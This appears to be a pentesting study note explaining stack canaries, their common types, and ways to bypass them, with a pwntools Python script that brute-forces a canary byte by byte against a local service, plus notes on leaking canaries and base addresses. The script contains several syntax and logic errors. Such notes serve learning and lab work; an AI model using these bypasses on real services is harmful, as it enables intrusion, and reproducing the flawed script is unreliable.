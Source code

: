 # Canary Bypass

## Stack Canaries

Stack canaries are used to detect a stack buffer overflow before execution of any malicious code can occur. This method works by placing a **small integer**, which value has been randomly chosen at the start of the program within the stack **just before the stack return pointer**.&#x20;

We can illustrate how it works through analysing the stack contents:

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

When the binary runs, it checks the canary and ensures that it does not change. If altered, the execution would end immediately.&#x20;

Stack canaries are checked for their value just before the return to the calling function, which is where attackers would normally gain control over the instruction pointer.&#x20;

### Types of Canaries

There are many types of canaries, but here are the most common ones:

|                   |                     |                          |
| ----------------- | ------------------- | ------------------------ |
| _Type_            | _Example_           | _Protection_             |
| Null canary       | 0x00000000          | 0x00                     |
| Terminator canary | 0x00000aff          | 0x00, 0x0a, 0xff         |
| Random canary     | \<any 4-byte value> | Usually starts with 0x00 |
| Random XOR canary |                     | Usually starts with 0x00 |
| 64-bit canary     | <8 bytes>           |                          |
| Custom canary     |                     |                          |

Each canary has their own set of advantages and security measures introduced:

* Null Canary is the most simple as it's just 4 NULL bytes. However, this is the most vulnerable of canaries because its predictable and **there are functions that can read null canaries**.
* Terminator Canaries introduces two or more hex values that attempt to terminate string operations. These values are still predictable
* Random Canaries are better in terms fo protection, and **usually consist of a NULL byte followed by 3 random bytes**. The NULL byte would attempt to terminate string operations, while the 3 random bytes will make the canary less predictable.
* The random XOR canary is similar to the random canary, but its value is XOR'd against a non-static value in the program, such as the EBP. Since most binaries run with ASLR enabled, this provides a lot more security.&#x20;

## Bypasses

### Brute Forcing

One of the ways is to brute force and randomly guess the canary. This only works **if the canary is a  static value and it has the same canary everytime** (common for network services). We can brute force a canary **char by char** and see if the program crashes or continues.

This is the python script I use to brute force canaries:

```python
from pwn import *

def connect():
    r = remote("localhost", 13337)
    
def get_cookie(base):
    canary = ''
    guess = 0x0
    base += canary
    
    while len(canary) < 8 # or 4 if 32-bit
        while guess != 0xff:
            r = connect()
            
            r.recvuntil("if needed")
            r.send(base + chr(guess))
            # add as many r.recvuntil as needed.
            
            if "OUTPUT IS PRODUCED" in r.clean():
                print("Guessed Correct bytes", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()
        print(canary)
        return base
    
offset = 123
base = "A" * offset
base_canary = get_cookie(base)
print (base_canary)
```

The rough script is like this using `pwntools`.&#x20;

### Printing Stack Values

Another way is to print out the values of the stack and view the canary. Most canaries begin with the NULL byte of \x00, and we can make use of certain functions, like `printf` that may be running within the binary to see the values of the stack.&#x20;

Alternatively, one could create a script that would intercept the value of the canary and then send the exploit later with this value. In some cases, this is the only way to exploit the binary due to a randomised value.&#x20;

### ASLR Bypass

As with all ASLR bypasses, the main thing to leak is the **base address value**. This can be done through the usage of an LFI exploit to read the processes that are running (like in HTB Retired), or calculation of the base through brute-forcing the instruction and base pointer values.&#x20;

Once the base is leaked, the **offsets** can be calculated to create a ROP chain if needed.
